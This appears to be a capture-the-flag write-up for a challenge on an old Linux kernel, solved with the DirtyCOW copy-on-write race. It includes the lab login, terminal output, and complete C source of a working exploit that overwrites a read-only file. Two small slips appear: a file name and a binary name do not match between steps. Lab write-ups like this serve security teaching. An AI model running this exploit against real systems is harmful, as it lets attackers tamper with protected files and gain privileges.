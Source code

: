 
## Challenge Information

Link: 

Difficulty: Easy

Category: Exploit Vulnerability

Author: Jake Bailey

Description:

```
This CTF requires players to alter a read-only file to obtain a key from an executable provided to the player on the challenge machine
```

Hints:
- Man, this kernel version is OLD
- I'm deathly afraid of farm animals

Login as "tester" user with "123456" as the password

## Solution

1.  Run the key_checker executable to see that some file content must be modified to obtain the key
```
tester@CVE:~$ ./key_checker
Incorrect file content. Boo
```
2. Look at the 'flagfile' file and note its contents 
3. Create a program that exploits the DirtyCOW vulnerability and use the program to overwrite the contents of 'flagfile', changing 'no' to 'yes'.
```
tester@CVE:~$ cat checkflag
no
tester@CVE:~$ ./dirtycow flagfile yes
mmap b779f000

procselfmem 3000000

madvise 0

tester@CVE:~$ cat flagfile
yestester@CVE:~$ ./key_checker
m00000000(You found the key!)
tester@CVE:~$
```

Here is the exploit I used to solve 
```
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map; //Memory Mapping
int f; //file descriptor for target file
struct stat st; //file information
char *name; //name of target file

/*
On this thread, we use madvise, which is an optimization
call for handling memory. We call madvise with the DONTNEED flag,
which causes subsequent accesses to the specified memory range be
reloaded each time they are accessed
*/
void *madviseThread(void *arg){
	char *str;
	str=(char*)arg;
	int i,c=0;
	for(i = 0; i < 1000000; i++){
		c += madvise(map, 100, MADV_DONTNEED);
	}
	printf("madvise %d\n\n", c);
}

/*
This thread opens the proc/self/mem file, which contains the
memory for the current process. We seek the beginning of this
file, and then write the passed string to it. The kernel should
make a copy of the file and then write to that (COW), although
when the race condition with madvise is introduced, the underlying
file will be written to, rather than a copy. 
*/

void *procselfmemThread(void *arg){
	char *str;
	str=(char*)arg;
	int f = open("/proc/self/mem", O_RDWR);
	int i,c = 0;
	for(i = 0; i < 1000000; i++){
		lseek(f,(uintptr_t) map, SEEK_SET);
		c += write(f,str,strlen(str));
	}
	printf("procselfmem %d \n\n", c);
}


int main(int argc, char *argv[]){
	if(argc < 3){
		(void)fprintf(stderr," %s\n", "usage: exploit target_file new_content");
		return 1;
	}
	pthread_t pth1, pth2;
	f = open(argv[1], O_RDONLY); //open target file as read only
	fstat(f, &st);
	name = argv[1];
	//open with MAP_PRIVATE to enable COW mapping
	map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE,f,0); 
	printf("mmap %zx\n\n", (uintptr_t) map);

	pthread_create(&pth1, NULL, madviseThread, argv[1]);
	pthread_create(&pth2, NULL, procselfmemThread, argv[2]);

	pthread_join(pth1, NULL);
	pthread_join(pth2, NULL);
	return 0;
}
```
compilation: gcc -pthread exploit.c -o exploit

Flag: m00000000(You found the key!)